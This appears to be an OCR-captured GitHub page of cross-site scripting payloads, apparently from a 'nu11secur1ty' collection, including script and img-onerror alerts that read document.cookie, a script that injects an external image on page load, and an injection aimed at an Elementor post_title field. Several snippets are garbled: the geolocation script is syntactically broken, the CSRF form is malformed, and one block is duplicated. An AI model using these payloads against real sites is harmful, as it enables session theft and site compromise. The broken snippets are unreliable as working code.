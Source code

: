 ## DOM
```
<script>alert(document.domain)</script>
```
## Self Cross-Site Scripting 
```mysql
<img src="" onerror="alert(document.cookie)">
```
## Non ExistantImage
```
<div><image src=validateNonExistantImage.png onloadstart=alert(1337)> hey girl hey </div>
```
## Get cookie
```
nu11secur1ty<script>alert(document.cookie)</script>
```
## Alert check
```
<script>alert("Hello");</script>
<script>alert("nu11secur1ty_is_here");</script>
```

## Hidden Image
```
<script>function a() { document.write("<img src='https://raw.githubusercontent.com/nu11secur1ty/XSSight/master/XSS-image/image/kostaakatil.webp'></img>"); }; window.onload = a; alert("A Hidden scripted image, warning you are vulnerable!");</script>
```
## Post image
```
<form action="#" method="post"><label for="imgURL">image URL:</label><input type="url" id="imgURL"/><label for="pageURL">page URL:</label><input type="url" id="pageURL"/><button id="imgAdd">add image</button></form>
```
- 0.1
```
</span><img src=https://cdn5-capriofiles.netdna-ssl.com/wp-content/uploads/2017/07/IMG_0068.gif <a href=http://example.com/> onerror=alert(1) /><span>
```
## Error check
```
</span><img src=1 onerror=alert(1) /><span>
```
## CSFR tokens
```
<form action="https:/yourdomain.com/acquire_token.php"></textarea>
```
## Geolocation
```
<script>Var today = new Date().toLocaleString() + 'week' + 'day one two three four five six'.charAt(new Date().getDay());document.getElementById('remote').src = "htttp:// + today + "----" + encodeURIComponent(position.coords.latitude) + "," + encodeURIComponent(position.coords.longitude</script>
```
## "post_title" parameter
```
<input class="elementor-field elementor-field-textual elementor-size-lg" type="text" placeholder="" value="\"><script>alert(document.cookie)</script><\"" name="post_title" id="dce_view_f9fc119_post_title">
```
## Document_cookie
```
<input class="elementor-field elementor-field-textual elementor-size-lg" type="text" placeholder="" value="\"><script>alert(document.cookie)</script><\"" name="post_title" id="dce_view_f9fc119_post_title">
```

